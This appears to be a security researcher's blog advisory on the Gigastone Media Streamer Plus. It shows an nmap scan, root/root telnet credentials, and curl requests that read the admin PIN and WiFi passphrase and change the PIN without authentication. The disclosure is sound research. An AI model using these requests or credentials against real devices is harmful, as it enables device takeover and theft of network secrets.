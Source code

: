 ```yaml
---
layout: post
title: "Playing with the Gigastone Media Streamer Plus"
category: Security
tags:
  - Security
  - Advisories
  - Research
excerpt:
    A few months ago, I was shopping on woot.com and
    discovered the Gigastone Media Streamer Plus for about
    $25.  I figured this might be something occassionally useful, or at least fun to
    look at for security vulnerabilities.  When it arrived, I didn't get around to
    it for quite a while, and then when I finally did, I was terribly disappointed
    in it as a security research target -- it was just too easy.
---
```


* TOC
{:toc}

## Background ##

A few months ago, I was shopping on [woot.com](https://www.woot.com) and
discovered the [Gigastone Media Streamer Plus](http://amzn.to/2C76sRQ) for about
$25.  I figured this might be something occassionally useful, or at least fun to
look at for security vulnerabilities.  When it arrived, I didn't get around to
it for quite a while, and then when I finally did, I was terribly disappointed
in it as a security research target -- it was just too easy.

The Gigastone Media Streamer Plus is designed to provide streaming from an
attached USB drive or SD card over a wireless network.  It features a built-in
battery that can be used to charge a device as well.  In concept, it sounds
pretty awesome (and there's many such devices on the market) but it turns out
there's no security to speak of in this particular device.

## Exploration ##

By default the device creates its own wireless network that you can connect to
in order to configure and stream, but it can quickly be reconfigured as a client
on another wireless network.  I chose the latter and joined it to my lab network
so I wouldn't need to be connected to *just* the device during my research.

### NMAP Scan ###

The first thing I do when something touches the network is perform an NMAP scan.
I like to use the version scan as well, though it's not nearly as accurate on
embedded devices as it is on more common client/server setups.  NMAP quickly
returned some interesting findings:

```
# Nmap 7.40 scan initiated as: nmap -sV -T4 -p1-1024 -Pn -o gigastone.nmap 192.168.40.114
Nmap scan report for 192.168.40.114
Host is up (0.14s latency).
Not shown: 1020 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
23/tcp open  telnet  security DVR telnetd (many brands)
53/tcp open  domain  dnsmasq 2.52
80/tcp open  http    Boa httpd
MAC Address: C0:34:B4:80:29:EB (Gigastone)
Service Info: Host: use

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done -- 1 IP address (1 host up) scanned in 22.33 seconds
```

Hrrm, FTP and Telnet.  I'm sure they're for a good reason.

### Web Interface  ###

The web interface is functional, but not attractive.  It provides functionality
for uploading and downloading files as well as changing settings, such as
wireless configuration, WAN/LAN settings, and storage usage.

I noticed that, when loading the Settings page, you would sometimes get the
settings visible *before* authenticating to the admin interface.

### Problems with Burp Suite ###

While playing with this device, I did notice a bug in Burp Suite.  The Gigastone
Media Streamer Plus does not adhere to the HTTP RFCs, and all of their cgi-bin
scripts send only `\r` at the end of line, instead of `\r\n` per the RFC.
Browsers are forgiving, so they handled this gracefully.  Unfortunately, when
passing the traffic through Burp Suite, it transformed the '\r\r' at the end of
the response headers to `\n\r\n\r\n`.  This causes the browser to interpret an
extra blank line at the beginning of the response.  Still *not* a problem for
the browser parsing things, but slightly more a problem for the Gigastone
Javascript parsing its own custom response format (newline-separated).

I reported the [bug to PortSwigger](https://support.portswigger.net/customer/portal/questions/17177658-header-lines-with-improper-terminators-manipulated-by-burp-in-strange-ways)
and not only got a prompt confirmation of the bug, but a Python Burp extension
to work around the issue until a proper fix lands in Burp Suite.  That's an
incredible level of support from the authors of a quality tool.

## Vulnerabilities ##

### Telnet with Default Credentials ###

The device exposes telnet to the local network and accepts username 'root' and
password 'root'.  This gives full control of the device to anyone on the local
network.

### Information Disclosure: Administrative PIN (and Other Settings) ###

The administrative PIN can be retrieved by an unauthenticated request to an API.
In fact, the default admin interface uses this API to compare the entered PIN
entirely on the client side.

```
% curl 'http://192.168.40.114/cgi-bin/gadmin'
get
1234
```

In fact, all of the administrative settings can be retrieved by unauthenticated
requests, such as the WiFi settings.  (Though, on a shared network, this is of
limited value.)

```
% curl 'http://192.168.40.114/cgi-bin/cgiNK'
AP_SSID=LabNet
AP_SECMODE=WPA2
PSK_KEY=ThisIsNotAGoodPassphrase
AP_PRIMARY_KEY=1
WEPKEY_1=
WEPKEY_2=
WEPKEY_3=
WEPKEY_4=
```

### Authentication Bypass: Everything ###

None of the administrative APIs actually require any authentication.  The admin
PIN is never sent with requests, no session cookie is set, and there are no
other authentication controls.  For example, the admin PIN can be set via a GET
request as follows:

```
% curl 'http://192.168.40.114/cgi-bin/gadmin?set=4444'
set
0
4444
```

## Timeline ##

- Discovered in ~May 2017
- Reported Jan 28 2018
